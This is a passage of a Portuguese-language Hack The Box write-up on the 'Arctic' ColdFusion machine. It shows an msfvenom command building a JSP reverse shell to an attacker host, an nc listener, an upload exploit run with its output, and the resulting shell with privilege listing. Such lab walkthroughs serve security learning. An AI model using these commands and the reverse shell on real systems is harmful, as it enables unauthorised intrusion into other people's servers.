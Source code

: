 ` msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f raw > shell.jsp`

Start seu ouvinte na porta escolhida usando o nc, neste caso eu usei a porta 53

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
```

Execute o exploit

```
root@kali:~/HTB-Windows/arctic# python exploit.py 
Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp
root@kali:~/HTB-Windows/arctic# python exploit.py 10.10.10.11 8500 /root/HTB-Windows/arctic/shell.jsp 
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

E acesse via browser a URL http://10.10.10.11:8500/userfiles/file/exploit.jsp

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/7.jpg)

## Privilege Escalation

Comecamos entao a fase de escalada, vamos la...

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.11] 49650
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```